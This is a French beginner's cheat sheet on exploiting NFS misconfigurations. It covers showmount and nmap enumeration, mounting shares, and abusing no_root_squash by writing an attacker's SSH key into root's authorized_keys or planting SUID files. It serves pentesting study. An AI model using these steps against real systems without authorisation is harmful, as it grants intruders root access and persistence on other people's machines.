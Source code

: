 # Exploitation NFS (Network File System)

## Objectif
Exploiter des faiblesses de configuration NFS pour accéder à des fichiers partagés, obtenir des accès non autorisés ou rebondir sur d'autres systèmes.

---

## Explications vulgarisées
- NFS permet de partager des dossiers entre machines Linux/Unix. S'il est mal configuré (partages en lecture/écriture, no_root_squash), il peut permettre de lire/écrire des fichiers sensibles ou d'obtenir un accès root.

---

## Commandes et étapes essentielles

### 1. Enumération des partages NFS
```bash
showmount -e target.com
```
- **showmount -e** : Liste les partages NFS exportés par la cible.
- **Exemple de sortie** :
```
Export list for target.com:
/home/public *
/var/backups 192.168.1.0/24
```
- **À surveiller** : Partages accessibles à tous ("*"), dossiers sensibles.

### 2. Montage d'un partage NFS
```bash
mount -t nfs target.com:/home/public /mnt/nfs
```
- **mount -t nfs** : Monte le partage NFS localement.
- **Astuce débutant** : Tester l'écriture dans le dossier monté.

### 3. Exploitation du no_root_squash
- Si le partage est configuré avec "no_root_squash", un attaquant peut créer un fichier SUID root ou une clé SSH pour obtenir un accès root sur la cible.
- Exemple :
```bash
# Sur ta machine
echo 'ssh-rsa AAAA... attacker@kali' > /mnt/nfs/root/.ssh/authorized_keys
```
- **À surveiller** : Possibilité d'écrire dans des dossiers root, création de fichiers SUID.

### 4. Enumération automatisée avec Nmap
```bash
nmap -p 2049 --script nfs-showmount,nfs-ls,nfs-statfs target.com
```
- **nfs-showmount** : Liste les partages exportés.
- **nfs-ls** : Liste les fichiers dans un partage.
- **nfs-statfs** : Récupère des infos sur le système de fichiers.

---

## Conseils pour débutants
- Toujours tester l'écriture dans les partages montés.
- Attention aux fichiers SUID et aux clés SSH dans les dossiers root.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - NFS Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/NFS%20Methodology)
- [Nmap NFS NSE Scripts](https://nmap.org/nsedoc/categories/nfs.html) 